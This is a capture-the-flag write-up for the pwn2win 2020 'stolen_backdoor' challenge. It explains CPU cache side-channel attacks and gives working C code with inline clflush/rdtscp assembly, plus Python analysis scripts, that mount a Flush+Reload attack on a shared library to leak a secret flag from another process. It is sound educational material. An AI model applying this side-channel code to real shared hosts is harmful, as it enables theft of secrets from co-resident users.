




# pwn2win CTF 2020 - stolen_backdoor (pwn)
*31 May 2020, Writeup by [Liikt](https://twitter.com/JB_Liikt) and [MMunier](https://twitter.com/_mmunier)*


Challenge Author: esoj

Category: pwn

Solves: 1

Points: 500

Rebellious Fingers got a low privilege backdoor in one of ButcherCorp's machines. The box is connected to the remains of a captured rebel android and it is being used to study their behaviors. There's not much left of the machine other than it's wireless omninet interface and a chip running the hkernel. Radio frequency analysis showed this machine is very active, as if it's trying to send a message to other androids. We could only get a sample of the programs that encrypt the message before it is sent and we need you to find out what is the message the android is trying to send.

## Note:

* The box is a default instance running on GCP (N1 Series).
* Getting root access is not necessary.
* The "encoder" binary is running on the server.
* Your payload (in binary format) will be executed for 5 seconds only.
* Server: nc stolenbd.pwn2.win 1337

[Folder](./challenge_files)

# Challenge

The extracted zip contained two binaries, one called `encoder` and one called
`libemojinet.so`.
This is how the `main` of the `encoder` binary looks like:
```c
void main(void) {
  int ctr;
  int dash_ctr;
  
  do {
    ctr = 0;
    while ("CTF-BR{REDACTED_REDACTED_REDACTED_REDAC}"[ctr] != '\0') {
      printTranslate((ulong)(uint)(int)"CTF-BR{REDACTED_REDACTED_REDACTED_REDAC}"[ctr],0xa0);
      usleep(10);
      ctr = ctr + 1;
    }
    putchar(10);
    dash_ctr = 0;
    while (dash_ctr < 0x1e) {
      putchar(0x2d);
      dash_ctr = dash_ctr + 1;
    }
    printf(" End of transmission ");
    dash_ctr = 0;
    while (dash_ctr < 0x1e) {
      putchar(0x2d);
      dash_ctr = dash_ctr + 1;
    }
    putchar(10);
    usleep(5000);
  } while( true );
}
```
All the encoder binary does is go through each character of the flag (which was
obviously redacted in the binary which was distributed as seen above), print the
emoji corresponding to that char and sleep 10 µs.
After the flag was entirely printed the program prints the char `-` 0x1e times,
followed by ` End of transmission `, another 0x1e `-` and a newline.
Then the program sleeps for 5 milliseconds and does the whole thing again.
This means for the flag `CTF-BR{REDACTED_REDACTED_REDACTED_REDAC}` the output 
looks as follows:
```
🏼⚕🤓‍️🧙🤽🧙🏻🤷🏿🏼⚕🏻🤷☞🧙🏻🤷🏿🏼⚕🏻🤷☞🧙🏻🤷🏿🏼⚕🏻🤷☞🧙🏻🤷🏿🏼🏽
------------------------------ End of transmission ------------------------------
...
```

The `printTranslate` is part of the `libemojinet.so` and translates a given char
to an emoji via a list called `emojiLib`. 
```c
if ((char < '-') || ('}' < char)) {
    uVar2 = 0xffffffff;
} else {
  if ((uint)(((int)char + -0x2d) * 0xa0) < 0x33d1) {
    uVar1 = *(uint *)(emojiLib + (ulong)(uint)(((int)char + -0x2d) * 0xa0) * 4);
    setlocale(6,"en_US.utf8");
    printf("%lc",(ulong)uVar1);
    uVar2 = 0;
  } else {
    uVar2 = 0xfffffffe;
  }
}
return uVar2;
```
First the `printTranslate` function checks if the char is between `-` and `}`,
giving us a slightly more constraint possible flag alphabet.
This function performs the operation `emojiLib[(char - 0x2d) * 0xa0]`.

As the note says the `encoder` binary is running on the server. 
If you connect to the server you are greeted with 
```
Hello there. Send me your ELF.
ps -aux | grep encoder
root         8  6.6  0.1   2360   696 ?        S    May29 191:53 /home/manager/encoder
Give me how many bytes (max: 30000)
```
which confirms, the note.
Now you can upload any ELF binary with a max size of 30kB which will be run for
5 seconds as per the note of the challenge.
The server would then return you the first 10000 bytes of the output of your
executed program.
This is probably the "stolen backdoor" the challenge was named after.

# Prerequisite information

First to confirm how the service works and the environment we work in we wrote a
python script, which compiles a C program, uploads it and returns us the output.

This was the first program I found on [StackOverflow](https://stackoverflow.com/questions/9629850/how-to-get-cpu-info-in-c-on-linux-such-as-number-of-cores) 
which provides us with the information of the CPU.
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{
   FILE *cpuinfo = fopen("/proc/cpuinfo", "rb");
   char *arg = 0;
   size_t size = 0;
   while(getdelim(&arg, &size, 0, cpuinfo) != -1)
   {
      puts(arg);
   }
   free(arg);
   fclose(cpuinfo);
   return 0;
}
```
This is practically a glorified `cat /proc/cpuinfo`.
We chose to get information about the CPU because based on the challenge 
description and design, this looked very much like a cache side-channel attack.
The information of the CPU is the following:
```
Here are the first 10000 bytes of your output:
processor               : 0
vendor_id               : GenuineIntel
cpu family              : 6
model                   : 63
model name              : Intel(R) Xeon(R) CPU @ 2.30GHz
stepping                : 0
microcode               : 0x1
cpu MHz                 : 2300.000
cache size              : 46080 KB
physical id             : 0
siblings                : 1
core id                 : 0
cpu cores               : 1
apicid                  : 0
initial apicid          : 0
fpu                     : yes
fpu_exception           : yes
cpuid level             : 13
wp                      : yes
flags                   : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 ss ht syscall nx pdpe1gb rdtscp lm constant_tsc rep_good nopl xtopology nonstop_tsc cpuid tsc_known_freq pni pclmulqdq ssse3 fma cx16 pcid sse4_1 sse4_2 x2apic movbe popcnt aes xsave avx f16c rdrand hypervisor lahf_lm abm invpcid_single pti ssbd ibrs ibpb stibp fsgsbase tsc_adjust bmi1 avx2 smep bmi2 erms invpcid xsaveopt arat md_clear arch_capabilities
bugs                    : cpu_meltdown spectre_v1 spectre_v2 spec_store_bypass l1tf mds swapgs itlb_multihit
bogomips                : 4600.00
clflush size            : 64
cache_alignment         : 64
address sizes           : 46 bits physical, 48 bits virtual
power management:
```
The output of the above program tells us, that the CPU we are running on only
has one core. This is important, because in this case all programs share the same
L1, L2 and L3 CPU caches (The L3 cache is shared anyway but that is not 
relevant here).
With all that information we pretty much knew that we had to do some form of 
side-channel attack because we are not able to communicate with the program, that
has the flag in it directly, and privilege escalation was not needed as the note
said.

## The cache

One of the more famous cache side-channel attacks in the past are Meltdown and
Spectre, which used branch prediction to leak whether a certain address currently
resides in the cache or not.
To understand why that is an interesting information we have to understand how
the cache works.
The cache is part of the silicon of the CPU and acts as a place to store 
information between the CPU and the RAM.
Accessing RAM is relatively costly in terms of performance.
A [StackOverflow Article](https://stackoverflow.com/questions/4087280/approximate-cost-to-access-various-caches-and-main-memory) we found shows the 
timing for the different cache types.
```
Core i7 Xeon 5500 Series Data Source Latency (approximate)               [Pg. 22]

local  L1 CACHE hit,                              ~4 cycles (   2.1 -  1.2 ns )
local  L2 CACHE hit,                             ~10 cycles (   5.3 -  3.0 ns )
local  L3 CACHE hit, line unshared               ~40 cycles (  21.4 - 12.0 ns )
local  L3 CACHE hit, shared line in another core ~65 cycles (  34.8 - 19.5 ns )
local  L3 CACHE hit, modified in another core    ~75 cycles (  40.2 - 22.5 ns )

remote L3 CACHE (Ref: Fig.1 [Pg. 5])        ~100-300 cycles ( 160.7 - 30.0 ns )

local  DRAM                                                   ~60 ns
remote DRAM                                                  ~100 ns
```
Note here:
```
THESE VALUES ARE ROUGH APPROXIMATIONS. THEY DEPEND ON CORE AND UNCORE FREQUENCIES,
MEMORY SPEEDS, BIOS SETTINGS, NUMBERS OF DIMMS, ETC,ETC..YOUR MILEAGE MAY VARY."
```
So to not have to waste so much time pulling data from RAM CPU manufactures build
small banks of memory into the CPU.
The closer they are to the actual processing unit the faster the access time.

### Cache Structure and Behavior

You can think of the cache being structured similarly to the main memory. 
However as there is less cache available (as seen in cpuinfo as shown above `46080 KB`) the "page equivalent" structures get smaller as well. These are called cache lines and as seen above are 64 Bytes in size.
As regular memory gets used the cpu tries to optimize access times and loads frequently used addresses into higher and higher levels of cache.
Accesses to loaded caches are being tracked by the CPU and if a specific line is not sufficiently used it gradually decays as other addresses are being cached, until it is no longer present in any level of cache and has to be fetched from regular DRAM once again.

For optimization most newer x86 (x64) cpus expose a few instructions to directly affect which parts of memory are loaded into cache.

The two instructions most relevant for userspace are the `prefetch`-family and `clflush`.
`Prefetch*` can be used to tell the cpu that a specific part of memory will be used shortly in the future, as a signal for the CPU to load it into cache whenever it finds time for it.
Surprising for everyone `clflush` does the complete opposite. Whatever address it pointed to, gets evicted from every level of cache and is written back to memory.
There are other instructions for influencing this speculative behavior including fences and more privileged instructions for eg. invalidating the entire cache (`INVD`). However ultimately most instructions influence caching behavior in some way as soon as they interface with memory.

As for our encoder binary each time the emoji-library encodes a specific character, the resulting emoji-address (and the adjacent memory next to it) would be loaded into a cache line on some level of cache. This is what exposes it to the following attacks.

Another key importance lied on the `0xa0` multiplier for accessing entries in the emojidb, since this caused each accessed emoji to have its own cache line.

## Cache Side-Channel Attacks
[A great slide deck from the HitB Conference 2016](https://conference.hitb.org/hitbsecconf2016ams/materials/D2T1%20-%20Anders%20Fogh%20-%20Cache%20Side%20Channel%20Attacks.pdf)

A side-channel attack is an attack, where an attacker user information gained by
observing a phenomenon which is only indirectly connected to the actual 
information gained of such an attack.

We now have to somehow leverage the information we can get from the cache to 
gain information of the flag in the `encoder` binary.
There are several ways to do that.
In fact there are four types of cache side-channel attacks
* Evict and Time
* Prime and Probe
* Flush and Reload
* Flush and Flush

The first three attacks work similarly.
First you manipulate the cache to known state, „wait“ for victim activity and examine what has changed.

### Evict and Time

With Evict and Time you first wait for a function to execute. Then you execute
the function again and time it.
After the timing you "evict" (remove it) a part of the cache.
Then you time the function again and if the function takes longer the second time
then you know, that the function used an address, that was part of the evicted
cache set.

This requires us to be able to execute the desired function multiple times, which
we couldn't.
Another problem is, that the resolution of Evict and Time is only a cache set,
meaning chunks of the cache.
We needed to retrieve specific lines of the cache which is much more fine grained.

### Prime and Probe

Here an attacker first puts a known address into the cache (priming).
Then they wait for the victim and time an access to the same address again. If
the access time is slow, then the attacker knows, that the victim accessed
memory congruent with the cache set the attacker primed.

This attack gives the benefit of not having to execute functions of the victim,
which we needed.
On the other hand Prime and Probe also only works on cache sets, which are to 
large for our attack.

### Flush and Reload

With Flush and Reload the attacker first clears (flushes) a specific cache line
from the cache.
Then they wait for the victim to do some computations.
After the victim has done a few instructions the attacker accesses the cache line
in question.
If that access was fast, it means that the victim must have placed it back into
the cache.
From that the attacker can infer which part of memory the victim had accessed.

One requirement for this attack is that both the victim and attacker have to 
share the memory the attacker want to get to know.
In our case this requirement was fulfilled, because in linux two programs, that
link to the same library share the same instance of the library until one of the
programs writes to part of it. In our case we only read from `libemojinet.so` so
that requirement was met.
Also this attacks works without having to interact with the victim at all and
we can infer information about specific cache lines.

In the end we chose to use a Flush and Reload attack to solve this challenge.

### Flush and Flush

Flush and Flush is a relatively new attack and is based on the fact, that when
the instruction to flush a cache line from the cache recognizes, that the line
already is not inside the cache, the instruction returns early.

This helps an attacker by flushing a cache line, waiting for the victim and
flushing the same cache line again. If the second flush was faster than the 
first one, the victim did not load the cache line in question and thus did not
access that part of the shared memory.

In theory this attack would've worked as well, but in our tests Flush and Flush
behaved very oddly and gave us weird results, which is why we opted for Flush and
Reload.

### Timing

The most important part of all these attacks is the timing.
A naive approach would be to use the time function of the C standard library.
That is often used to time programs but it returns the time only in seconds.
As the table of cache hits in the section about the cache shows us we are working
with a time resolution of clock cycles. Our CPU has a clock rate of 2.30GHz.
That is 2,300,000,000 cycles a second. And that is also the amount of interesting
events we would miss. To get a high resolution clock we have to use a CPU 
instruction called `rdtsc`. This instruction returns the amount of CPU since the
start of the CPU. This high frequency time stamping method can be used to time
instructions accurately. 

As a side note we actually used the instruction `rdtscp` which prevents the CPU
to rearrange the instructions and possibly skewing the timing.

# Solution

To test our attacks we bought a one core machine at a hosting service. We also
modified the flag in the `encoder` binary to be `CTF-BR{AA..AA}`. This helped
a lot in figuring out the first steps.

The first part of our solution was to find out which characters are being used
in the flag.

An important observation is, that thanks to the way the `emojiLib` list is 
structured each character/emoji corresponds to one cache line.

To find that out we wrote a program, which does a flush and reload for each letter
in the given alphabet.

```c
#include <stdio.h>
#include <assert.h>
#include <stdint.h>
#include <stdlib.h>
#include <dlfcn.h>
#include <unistd.h>
#include <string.h>

// #define ITERATIONS 192000
#define ITERATIONS 90000
#define LIB_OFFSET 0x4380
#define NUM_CHARS  (127 - 0x2d)

void *getEmojis();

__attribute__((naked))  void clflush(volatile void *p) {
    asm volatile (  "mfence;"
                    "clflush [rdi];"
                    "mfence;"
                    "ret" :::);
}

__attribute__((naked)) uint64_t time_foo(volatile void *p){
    asm volatile( 
        "push rbx;"
        "mfence;"
        "xor rax, rax;"
        "mfence;"       
        "rdtscp;"         // before
        "mov rbx, rax;"
        "mov rdi, [rdi];" // RELOAD
        "rdtscp;"         // after
        "mfence;"    
        "sub rax, rbx;"   // return after - before
        "pop rbx;"
        "ret;" :::
    );
}

int pseudo_sleep(size_t iter){
    for (size_t i = 0; i < iter; i++);
    return 0;
}

int main(int argc, char **argv) {
    void *emojilib = getEmojis();

    uint64_t deltas[ITERATIONS];

    for (int i = 0; i < ITERATIONS; i++){
        clflush(emojilib + LIB_OFFSET); // FLUSH
        pseudo_sleep(10000);
        deltas[i] = time_foo(emojilib + LIB_OFFSET);
    }

    for (int i = 0; i < ITERATIONS; i++){
        if (deltas[i] > 255) deltas[i] = 255;
        printf("%c", (char) deltas[i]);
    }

    return 0;
}
```

* `clflush` executes the `clflush` instruction on a given emoji
* `time_foo` times the access to a given emoji and returns the lower 32 bits of
the counter as that is enough for us
* `pseudo_sleep` just does a busy loop and just waits. We tried multiple times to use usleep ourselves, however syscalls in general caused a lot of uncertainty in our measurements so we opted for this method instead.

We first flush the cache line containing the emoji we are interested in, and wait for the encoder to fetch it. Then we
time the access to the same cache line again and print the resulting time of the
access interpreted as a byte. This allows us to retrieve 10000 samples of access
times to a given emoji each run. We did this for all possible characters and 
compared the results.



The above graph shows the access times for the character `-`. It clearly shows
that the access time never falls below 200 clock cycles.



This graph shows the access time for the letter `e`. You can see the access time
occasionally and periodically drops below 120.

If you compare the graphs of the two character it becomes clear, that the `-`
never was loaded in the cache after our flush, while `e` occasionally was loaded.

We then wrote a small python script, which would iterate over all of these graphs
and give us the characters that were used in the flag.

```python
import os
for x in os.listdir("."):
    arr = [y & 0xff for y in open(x, "rb").read()]
    if min(arr) < 180: # 180 cycles Threshold
        off = int(x.split(".")[0].split("_")[1], 16)
        off //= 0xa0*4
        print(chr(off+0x2d), "is in the flag")
```

The result was, that the flag must be made out of the characters `swR}W-FBL{TCdc3l10ne4_rbi`.

Graphing the latency-data for `C` showed a regular pattern of a single spike with an approximatly constant frequency.
This lead us to believe that the char `C` occured exactly once in the flag, and the observed frequency was the outer loop which took somewhat over 7ms in total. (5000µs sleep in the outer loop + appox 2000µs for printing the flag itself)

Based on the flag format `CTF-BR{....}` we could assume that this spike is the start of a new Flag. This key information now enhanced our script.
We would no longer search for just a single character, but two, namely `C` as our reference and our target char, in the following examples `e`.

```C
int main(int argc, char **argv) {
    void *emojilib = getEmojis();

    uint64_t deltas[ITERATIONS];

    for (int i = 0; i < ITERATIONS; i++){
        clflush(emojilib + 0x3700);  // C-Offset
        clflush(emojilib + LIB_OFFSET);
        //usleep(1);  // You mustn't use syscalls in here
        pseudo_sleep(3000);
        if (160 > time_foo(emojilib + 0x3700)){
            deltas[i] = 1;
            i++;
        }

        deltas[i] = time_foo(emojilib + LIB_OFFSET);
    }

    for (int i = 0; i < ITERATIONS; i++){
        if (deltas[i] > 255) deltas[i] = 255;
        printf("%c", (char) deltas[i]);
    }

    return 0;
}
```

Having found a `C`-Spike (with a pretty hard threshhold to not find any false positives) we would inject a single `(char) 1` into the byte-stream. We chose it for the simple reason that it should be impossible to have a meassured amount of one cpu cycle and we weren't sure if `printf("%c", 0);` would print anything, so we just took the next best thing.

This allowed us to now measure the timing of the spikes in relation to the start of the signal. The following graph is a the result for the letter `e`:


Zooming in closer 3 individual `e` spikes can be seen in the signal, all of them at distinct times after the metronome.



This was now repeated for all flag-characters we identified earlier. 

```python
import numpy as np
import matplotlib.pyplot as plt
import matplotlib
import sys
results_fmt = sys.argv[1]

font = {'size' : 16}
matplotlib.rc('font', **font)

txt = open(results_fmt, 'rb').read()
deltas = [i for i in txt]
startbytes = [i for i, val in enumerate(deltas) if val == 1]
deltas = list(filter(lambda a: a != 1, deltas))

deltas = np.array(deltas)
print(deltas.shape)

events = []
for i in startbytes:
    signal = deltas[i:i+300]
    trigger = [j for j, val in enumerate(signal) if val < 150]
    events.append(trigger)

prob_len = max([len(i) for i in events])
events = [i for i in events if len(i) == prob_len]

timings = np.mean(events, axis=0)
print(prob_len)
print(timings)

plt.figure(figsize=(12,8))
plt.title("Access-Times for character 'e'")
plt.plot(deltas)
plt.vlines(startbytes, 0, 255)
plt.xlim(0,10000)
plt.ylim(0,255)
plt.xlabel("Probe #")
plt.grid(True)
plt.ylabel("Access-Time in cpu-cyles")
plt.show()
```

We used the maximum number of cache hits as a filter for the individual signal bursts, in cace we missed any cache hits.
Their respective timing after the start of the signal was then averaged to get an approximate delay of the character.

The characters were then just sorted by delay after the start byte.

```python
time_arr = []

for file in os.listdir("./results/timing/"):
    char = file.split(".txt")[0].split("/")[-1]
    for t in timing(file):
        time_arr.append((char, t))

time_dict = sorted(time_dict,key=lambda a: a[1])
flag = [i[0] for i in time_arr if i[0] != "C"]
print("C" + ''.join(flag))
```

This originally resulted in `CTF-BR{r4nscT3dencen_b3elRl10_wniLl_W1}n`.

Looking at it, it definely seemed like something resembling a flag, however it was clear that the uncertainty in our original measurements was to high.
So we repeated the above with ~3 times higher resolution (going down from 10000 iterations of doing nothing to just 3000).
Whilst that was running in the background we simply started guessing the Flag, since the chars itself should be correct.

After a few failed attempts `CTF-BR{Tr4nsc3ndence_R3bell10n_wiLl_W1n}` was suddenly accepted, a few minutes before the rerun script came to the same solution.

## Conclusion

We solved this challenge after roughly 14-15 hours of working on it.
I personally feel like this was a really well thought through and fair challenge.
It had a really good difficulty to is and was fun to exploit.

All in all probs and thanks to the Pwn2Win team amd esoj in particular for this
challenge.

I would like to end this writeup with a quote from a team mate of ours after 
hearing that we were the first and only ones to solve this challenge:

"[Considering how we play A/D CTFs] stolen_door sounds 100% like enoflag"

<3 MMunier and Liikt
